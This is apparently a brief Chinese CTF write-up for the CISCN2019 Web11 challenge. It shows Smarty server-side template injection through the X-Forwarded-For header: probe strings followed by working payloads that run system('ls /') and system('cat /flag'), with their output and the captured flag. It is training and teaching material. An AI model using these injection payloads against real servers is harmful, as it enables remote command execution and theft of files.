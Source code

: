 ### [CISCN2019 华东南赛区]Web11

> 模板注入

---

我们发现使用的是`smarty`模板，我们抓包发现XFF是注入点

![image-20241021213802033](https://gitee.com/bx33661/image/raw/master/path/image-20241021213802033.png)

于是我们尝试是不是模板注入问题

- a{*comment*}b
- {$smarty.version}

![image-20241021213941201](https://gitee.com/bx33661/image/raw/master/path/image-20241021213941201.png)

```php
{if system('ls /')}{/if}
/*
          Current IP:bin dev etc flag home lib media mnt opt proc root run sbin
          srv sys usr var
          */

{if system('cat /flag')}{/if}
//Current IP:<?php $flag="flag{b5e17b43-ecc4-4b94-9bf5-619023b5a46e}";
```

